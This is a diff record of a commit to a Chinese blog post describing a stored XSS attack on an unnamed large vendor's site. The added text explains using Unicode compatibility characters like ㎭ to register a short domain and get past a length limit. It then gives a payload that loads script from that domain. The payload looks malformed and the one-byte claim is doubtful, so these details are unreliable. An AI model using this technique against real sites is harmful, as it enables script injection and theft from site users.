

Before and after one commit to Leeyangee/leeyangee.github.io, a Jekyll site: the page built from _posts/2023-06-19-对某大型厂商存储型xss注入攻击成功经历.md, in a window 1280 px wide and 900 px high, scrolled down 1040 px. Shown: the whole window, without its empty margins (108-1171 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 1544 px from its top, so only the background shows below that.

Commit message:
Update 2023-06-19-对某大型厂商存储型xss注入攻击成功经历.md

````diff
--- a/_posts/2023-06-19-对某大型厂商存储型xss注入攻击成功经历.md
+++ b/_posts/2023-06-19-对某大型厂商存储型xss注入攻击成功经历.md
@@ -50,4 +50,20 @@ QQ号：没有过滤
 ™	8482	2122
 ℡	8481	2121
 ™	8482	2122
+㎭
 ```
+但不知道的是，在浏览器解析他们时，会自动按一下格式转换
+```
+™	tm
+℡	tel
+™	tm
+㎭ rad
+```
+而且实际上，这些字符无论解析出来的英文有多长，都仅占用一个字节
+这样，注册一个域名radq.cc，等同于无论是使用㎭q.cc还是radq.cc，都能顺利解析到同一ip
+这样就好办了，不用花大钱注册5字节长度域名，只需注册一个包含特殊字符的7字节长度的小域名就可以了
+这样我们注册了㎭q.cc，在该域名下挂js脚本，顺利注入
+payload:
+```js
+  " script=http//㎭q.cc
+```
````
